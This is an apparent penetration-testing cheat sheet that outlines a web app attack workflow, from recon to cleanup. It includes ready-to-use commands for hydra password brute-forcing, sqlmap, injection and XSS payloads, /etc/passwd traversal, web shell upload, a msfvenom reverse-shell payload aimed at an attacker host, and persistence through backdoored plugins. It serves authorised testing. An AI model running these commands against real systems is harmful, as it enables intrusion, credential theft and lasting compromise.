 # Web App Attack Workflow – Ops Card

## 1. Recon & Mapping

- `nmap -sV -p- TARGET` → enumerate services
    
- `whatweb TARGET` → fingerprint tech stack
    
- `ffuf -u http://TARGET/FUZZ -w wordlist.txt` → discover dirs/files
    
- `paramspider TARGET` → find parameters
    
- `ffuf -u http://FUZZ.TARGET -w subdomains.txt` → subdomain brute
    

## 2. Auth & Session

- `hydra -l admin -P rockyou.txt TARGET http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid"`
    
- Inspect cookies → check `HttpOnly`, `Secure`, `SameSite`
    
- Replay session IDs → test fixation
    
- Look for weak MFA bypass (backup codes, OTP endpoints)
    

## 3. Injection Testing

- **SQLi**: `sqlmap -u "http://TARGET/item.php?id=1" --batch --dbs`
    
- **Command Injection**: test `;id`, `&& whoami`
    
- **XSS**: `<script>alert(1)</script>` or `dalfox url TARGET`
    
- **Template Injection**: `{{7*7}}`, `${7*7}`
    

## 4. File & Object Handling

- Upload test: `.php`, `.jsp`, `.jpg.php`
    
- Path traversal: `../../../../etc/passwd`
    
- Deserialization: tamper with cookies/JWTs
    

## 5. Access Control & Logic

- IDOR: change `user_id=123` → `124`
    
- Privilege escalation: try `/admin` as normal user
    
- Logic flaws: negative prices, skipping payment steps
    

## 6. Exploitation & Persistence

- Web shell: upload `cmd.php`
    
- Reverse shell: `msfvenom -p php/meterpreter/reverse_tcp LHOST=YOURIP LPORT=4444 -f raw > shell.php`
    
- Pivot: use compromised web server to reach internal hosts
    
- Persistence: add admin users, backdoor plugins/themes
    

## 7. Cleanup & Reporting

- Remove shells, test accounts, artifacts
    
- Log findings: vuln, PoC, impact, remediation
    

# Gameday Flow

1. Recon sweep (nmap, ffuf, paramspider)
    
2. Auth/session testing
    
3. Injection fuzzing (sqlmap, dalfox)
    
4. File upload & traversal checks
    
5. Privilege escalation attempts
    
6. Exploit → persistence (drop shell, pivot)
    
7. Document & clean up